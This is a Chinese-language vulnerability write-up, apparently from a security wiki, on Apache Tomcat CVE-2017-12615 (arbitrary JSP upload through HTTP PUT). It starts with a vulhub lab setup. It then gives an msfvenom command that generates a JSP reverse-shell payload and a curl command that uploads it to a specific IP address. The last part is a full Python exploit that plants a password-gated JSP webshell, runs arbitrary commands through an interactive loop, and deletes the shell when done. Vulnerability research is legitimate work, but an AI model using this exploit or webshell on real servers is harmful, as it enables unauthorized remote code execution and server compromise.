 # Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

> [!NOTE]
>
> Apache Tomcat 7.0.0 - 7.0.81

## 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可

![](image/tomcat-1.png)

## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件

![](image/tomcat-3.png)

**msf**生成一个**jsp**木马

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

> [!NOTE]
>
> 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件

![](image/tomcat-4.png)

访问文件即可反弹一个shell

![](image/tomcat-5.png)

也可以使用**DELETE**请求方法删除文件

![](image/tomcat-6.png)

## 漏洞利用POC

> [!NOTE]
>
> 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 201 or response.status_code == 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)

```

![](image/tomcat-7.png)
